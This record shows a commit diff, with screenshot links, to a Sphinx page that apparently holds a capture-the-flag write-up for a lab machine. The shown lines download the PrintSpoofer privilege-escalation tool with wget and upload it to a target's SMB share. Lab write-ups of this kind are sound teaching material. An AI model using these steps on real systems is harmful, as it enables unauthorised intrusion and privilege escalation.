

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/relevant.md, in a window 1280 px wide and 900 px high, scrolled down 7774 px. Shown: the part 285-596 px from the top of the window. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Version 0.1

```diff
--- a/source/docs/thm/relevant.md
+++ b/source/docs/thm/relevant.md
@@ -392,7 +392,7 @@ machine:
 
     # wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
 
-    # smbclient // /nt4wrksv
+    # smbclient //<IP target>/nt4wrksv
     smb: \> put PrintSpoofer.exe
 
 Run:
```
